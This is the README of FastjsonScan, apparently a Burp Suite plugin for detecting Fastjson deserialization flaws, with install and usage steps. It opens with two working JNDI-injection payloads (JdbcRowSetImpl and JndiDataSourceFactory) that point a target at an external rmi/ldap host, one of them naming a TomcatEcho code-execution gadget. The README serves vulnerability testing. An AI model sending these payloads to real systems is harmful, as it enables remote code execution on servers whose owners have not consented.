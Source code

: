 # FastjsonScan

#### poc1 `com.sun.rowset.JdbcRowSetImpl`
```
  {
    "axin": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "is": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://%s/aaa",
      "autoCommit": true
    }
  },
  {
    "handsome": {
      "@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
      "dataSourceName": "rmi://%s/aaa",
      "autoCommit": true
    }
  }

```

#### poc2 `org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`
```
{
  "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
  "properties": {
    "data_source": "ldap://x.x.x.x:1389/Basic/TomcatEcho"
  }
}
```

一个简单的Fastjson反序列化检测burp插件

我在挖洞的时候看到一些json请求总是想要检测一下有没有Fastjson反序列化问题，本可以直接写一个脚本来跑或者搭配其他被动扫描器来验证，但是我太懒了，先不说burp搭配其他扫描器了，就连找到特定目录下的脚本我都觉得麻烦，所以，我决定一劳永逸地解决这个问题，于是去学习了一下burp插件的写法糊弄出了这个插件


### 安装方法



- 下载项目中的FastjsonScan.jar文件
- 在burp的Extender->Extensions栏，点击Add,选择下载好的jar文件就可以了（执行环境是Java)
  
如果成功安装，会输出如下信息，如果未能成功安装可以换下jdk版本？？我用的1.8
![](images/json.png)

### 使用方法


使用方法也很简单，就像使用repeater一样，你可以在burp的任何地方选中一个请求右键选择【Send to FastjsonScan】将这个请求发送到Fastjson Scan，然后就只需要等待扫描结束🌶 

右键菜单中：

![](images/menu.png)

FastjsonScan扫描结果界面：

![](images/result.png)

如果扫描的目标存在漏洞，在窗口下面的Request窗口会展示使用的payload,如果没有漏洞，则会展示原始的请求与响应

> ps: 由于反序列化检测利用了dnslog，所以检测会稍微慢一点，在等待结果期间你还可以继续看其他请求，真的是相当方便呢


### 核心代码


核心代码都在BurpExtender.java中了，检测逻辑很简单，注释也都写了，如果你有其他的需求，完全可以自己修改，直接在IDEA中打开FastjsonScan目录就可以继续创造了
